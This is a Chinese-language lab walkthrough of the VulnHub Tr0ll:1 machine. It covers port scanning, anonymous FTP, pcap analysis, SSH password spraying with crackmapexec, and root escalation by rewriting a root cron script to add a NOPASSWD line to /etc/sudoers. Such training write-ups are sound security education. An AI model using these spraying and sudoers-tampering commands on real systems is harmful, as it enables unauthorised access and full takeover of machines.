









> **靶机地址：**https://www.vulnhub.com/entry/tr0ll-1,100/
>
> **Download (Mirror)**: https://download.vulnhub.com/tr0ll/Tr0ll.rar

# nmap扫描

端口扫描

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 10.10.10.13
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-02 08:39 EST
Nmap scan report for bogon (10.10.10.13)
Host is up (0.0028s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.58 seconds

```

详细信息扫描

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT -sV -O -p22,80,21 10.10.10.13
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali:
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-02 08:48 EST
Nmap scan report for bogon (10.10.10.13)
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:39:E9:62 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.24 seconds
```

> 开发了21，22，80端口

指定漏洞脚本扫描

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap --script=vuln -p21,22,80 10.10.10.13
sudo: unable to resolve host kali: Name or service not known
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-02 08:51 EST
Nmap scan report for bogon (10.10.10.13)
Host is up (0.00028s latency).

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum:
|   /robots.txt: Robots file
|_  /secret/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
MAC Address: 00:0C:29:39:E9:62 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 321.76 seconds

```

枚举出了`/robots.txt` ，`/secret/`目录


## ftp渗透

先访问一下`ftp`，

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.13
Connected to 10.10.10.13.
220 (vsFTPd 3.0.2)
Name (10.10.10.13:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||33462|).
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 09  2014 lol.pcap
226 Directory send OK.
ftp>
```

发现允许匿名登录，查看有什么文件

```bash
ftp> ls
229 Entering Extended Passive Mode (|||51136|).
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 09  2014 lol.pcap
226 Directory send OK.
ftp>

```

将其下载下来，使用`wireshark`分析数据包

```bash
ftp> get lol.pcap
local: lol.pcap remote: lol.pcap
229 Entering Extended Passive Mode (|||7902|).
150 Opening BINARY mode data connection for lol.pcap (8068 bytes).
100% |************************************************************************************************************************************************|  8068       15.89 MiB/s    00:00 ETA
226 Transfer complete.
8068 bytes received in 00:00 (7.52 MiB/s)
ftp>

```

```bash
┌──(kali㉿kali)-[~]
└─$ file lol.pcap
lol.pcap: pcapng capture file - version 1.0

```

打开wireshark分析

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ wireshark lol.pcap 
```



发现一个`secret_stuff.txt`



看到`sup3rs3cr3tdirlol`这种，就要想起leetspeak

### leetspeak

> **何为leetspeak？**
>
> 
>
> 

也可以用`strings`查看有哪些字符串信息

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ strings lol.pcap
Linux 3.12-kali1-486
Dumpcap 1.10.2 (SVN Rev 51934 from /trunk-1.10)
eth0
host 10.0.0.6
Linux 3.12-kali1-486
220 (vsFTPd 3.0.2)
"USER anonymous
331 Please specify the password.
PASS password
230 Login successful.
SYST
215 UNIX Type: L8
PORT 10,0,0,12,173,198
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
-rw-r--r--    1 0        0             147 Aug 10 00:38 secret_stuff.txt
226 Directory send OK.
TYPE I
W200 Switching to Binary mode.
PORT 10,0,0,12,202,172
g>      @
W200 PORT command successful. Consider using PASV.
RETR secret_stuff.txt
W150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
WWell, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P
Sucks, you were so close... gotta TRY HARDER!
W226 Transfer complete.
TYPE A
O200 Switching to ASCII mode.
{PORT 10,0,0,12,172,74
O200 PORT command successful. Consider using PASV.
{LIST
O150 Here comes the directory listing.
O-rw-r--r--    1 0        0             147 Aug 10 00:38 secret_stuff.txt
O226 Directory send OK.
{QUIT
221 Goodbye.
Counters provided by dumpcap

```

## Web渗透

访问`http://10.10.10.13/sup3rs3cr3tdirlol/`



下载下来分析

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ file roflmao                              
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped                                                                         
```

是一个`lsb`可执行文件

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ binwalk roflmao 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)                                                                        
```

也没有发现捆绑

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ strings roflmao                     
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
printf
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
Find address 0x0856BF to proceed
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
crtstuff.c
__JCR_LIST__
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
completed.6590
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
roflmao.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
data_start
printf@@GLIBC_2.0
_edata
_fini
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
__TMC_END__
_ITM_registerTMCloneTable
_init
```

提前字符串发现`Find address 0x0856BF to proceed`

意思是发现地址`0x0856BF`，这个地址看着是一个16进制，猜测可能是IP地址，也可能是目录地址

在浏览器上访问一下目录试试

`http://10.10.10.13/sup3rs3cr3tdirlol/0x0856BF`



`http://10.10.10.13/0x0856BF/`



发现了两个目录，挨个去查看

`curl http://10.10.10.13/0x0856BF/good_luck/which_one_lol.txt`

其结果看着像命令，也有可能是用户名

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ curl http://10.10.10.13/0x0856BF/good_luck/which_one_lol.txt
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

` curl http://10.10.10.13/0x0856BF/this_folder_contains_the_password/Pass.txt`

根据这个文件名可以知道是一个存放密码的文件

```bash
──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ curl http://10.10.10.13/0x0856BF/this_folder_contains_the_password/Pass.txt
Good_job_:)
```

在nmap扫描的时候发现开放了22端口

### crackmapexec 密码喷射破解

先将其两个文件下来

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ wget  http://10.10.10.13/0x0856BF/good_luck/which_one_lol.txt           
--2024-03-02 09:39:08--  http://10.10.10.13/0x0856BF/good_luck/which_one_lol.txt
Connecting to 10.10.10.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 109 [text/plain]
Saving to: ‘which_one_lol.txt’

which_one_lol.txt                              100%[====================================================================================================>]     109  --.-KB/s    in 0s      

2024-03-02 09:39:08 (16.0 MB/s) - ‘which_one_lol.txt’ saved [109/109]

                                                                                                                                                                                            
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ wget  http://10.10.10.13/0x0856BF/this_folder_contains_the_password/Pass.txt
--2024-03-02 09:39:16--  http://10.10.10.13/0x0856BF/this_folder_contains_the_password/Pass.txt
Connecting to 10.10.10.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12 [text/plain]
Saving to: ‘Pass.txt’

Pass.txt                                       100%[====================================================================================================>]      12  --.-KB/s    in 0s      

2024-03-02 09:39:16 (2.03 MB/s) - ‘Pass.txt’ saved [12/12]
```

爆破

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ crackmapexec ssh 10.10.10.13 -u which_one_lol.txt -p Pass.txt --continue-on-success
SSH         10.10.10.13     22     10.10.10.13      [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         10.10.10.13     22     10.10.10.13      [-] maleus:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] ps-aux:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] felux:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] Eagle11:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] genphlux < -- Definitely not this one:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] usmc8892:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] blawrg:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] wytshadow:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] vis1t0r:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] overflow:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13

```

发现刚开始显示认证失败，后面就开始提示说不能够连接到22端口，猜测ssh服务可能是做了爆破的限制机制

把数据后面的放到前面

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ cat which_one_lol.txt                                                              
blawrg
wytshadow
vis1t0r
overflow
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
```

但是还是爆破失败

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ crackmapexec ssh 10.10.10.13 -u which_one_lol.txt -p Pass.txt --continue-on-success
SSH         10.10.10.13     22     10.10.10.13      [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         10.10.10.13     22     10.10.10.13      [-] blawrg:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] wytshadow:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] vis1t0r:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] overflow:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] maleus:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] ps-aux:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] felux:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] Eagle11:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] genphlux < -- Definitely not this one:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] usmc8892:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] :Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
```

`this_folder_contains_the_password`明确提示说包含密码，那有没有可能`Pass.txt`这个文件名就是密码呢？

试一下



成功匹配到用户名密码`overflow:Pass.txt`



获得初始权限

## 计划任务提权

获取好一点的shell

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

看看该用户有哪些`root`权限



发现并没有

突然shell连接断开了



提示说`广播信息来自root,时间到了`，说明系统里有程序在自动执行，否则也不可能自动退出

查找计划任务

```bash
overflow@troll:/$ crontab -l
crontabs/overflow/: fopen: Permission denied
overflow@troll:/$
```

被拒绝

找找日志

```bash
overflow@troll:/$ find / -name cronlog 2>/dev/null
/var/log/cronlog
overflow@troll:/$ cat /var/log/cronlog
*/2 * * * * cleaner.py
```

找`cleaner.py`

```bash
overflow@troll:/$ find / -name cleaner.py 2>/dev/null
/lib/log/cleaner.py
```

查看`cleaner.py`

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
overflow@troll:/$ 

```

发现使用了`os.system`，可以执行系统的命令，并且每隔两分钟都会删除`/tmp`目录

修改`cleaner.py`

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "overflow ALL=(ALL)NOPASSWD: ALL" >> /etc/sudoers')
except:
        sys.exit()

```

赋予`overflow`用户所有权限，不需要密码

`sudo -l`过一会就可以了

提权：`sudo /bin/bash`

